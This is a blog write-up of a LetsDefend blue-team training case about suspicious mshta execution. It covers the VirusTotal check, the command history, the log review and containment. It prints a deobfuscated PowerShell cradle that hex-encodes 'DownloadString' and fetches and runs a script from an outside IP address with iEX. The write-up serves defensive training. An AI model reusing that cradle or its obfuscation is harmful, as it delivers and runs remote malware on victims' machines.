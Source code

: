 ```yaml
---
layout: post
published: true
title: write up - suspicious mshta behavior
author: admin
comments: true
date: '2022-04-13 18:00'
categories:
  - DFIR
---
```


I've been trying out [letsdefend.io](https://letsdefend.io/) for a couple of week, and here's a write up of one of the challenge. its a platform to hone your blue teaming skill, you play in a SIEM like apps and you act as an analyst, finding IOC and deciding escalation etc. There are not a lot of blue team training site, and this concept is pretty nice. 

Here goes the write up. 
<!--more-->

![mshta behaviour](/images/wup_ld.png)

This is what the case looked like, basically a host execute a hta thus an alert is triggered. Our job is to see what really happened and do the intended playbook exercise. Some things that we can check to help with analysis are the hash (virustotal) and the IP address (we'll try command history & proccess history we found at the endpoint security tab). Afterward we are gonna decide on containment (eradication and recovery) and last the lesson learned from said incident.

#### virustotal

virustotal result are bad, 23/58 malicious flag. you could also try to find the file and do more analysis, but for now I think we can move to endpoint security tabs and do more analysis there.

[virustotal](https://www.virustotal.com/gui/file/886095c7861a068d1ee603c71cb161f256941e802e743fe2161f30013947a2f1/detection)


#### endpoint security

![wup_endpoint](/images/wup_endpoint.png)

We use endpoint security tab to find out what was happening in the host 172.16.17.38. 
The screenshot above is from the command history portion of the tab, where we can see that the first command line that trigger the alert, followed by another not so clear command.

The first command is what triggered the alert. Mshta is a trusted Microsoft binary that in this case is abused for execution of the PS1.hta file. 
you can see the related explanation here at the [MITRE](https://attack.mitre.org/techniques/T1218/005/)

Tried a bit of magic at the second command so it will be more readable. 

```bash
function H1($i) 
{$r = '' ; for ($n = 0; $n -Lt $i.LengtH; $n += 2)
{$r += [cHar][int]('0x' + $i.Substring($n,2))}return $r};
$H2 = (new-object ('{1}{0}{2}' -f'WebCL','net.','ient'));
$H3 = H1 '446f776E';
$H4 = H1 '6C6f';
$H5 = H1 '616473747269';
$H6 = H1 '6E67';
$H7 = $H3+$H4+$H5+$H6;
$H8 = $H2.$H7('http://193.142.58.23/Server.txt');
iEX $H8
```

$H3-H6 with the help of $H1 just basically hex that reads "Downloadstring". 
$H2 was a glorified "New-Object Net.WebClient". 
$H8 puts them all together to form an old fashion download using powershell from address mentioned in $H8 (http://193.142.58.23/Server.txt). 

#### log management

After seeing what the script do, we best check log management and try to see did the c2 server (193.142.58.23) reply with anything.

![wup_endpoint](/images/wup_logmgmt.png)

apparently the server replied with 404, so no response arrived for the host (172.16.17.38) because the server is dead/ the file was not there.

#### containment and lesson learned

Based on our previous analysis, we can safely conclude that its a malicious script (but stopped due to the C2 server is dead), next step would be to contain the host. We can do this by going to endpoint security and use the request containment button. 

Lastly, we can use the IP address, and URL and also the md5 hash of the executed file can as IOC when we did the playbook and also close the case.



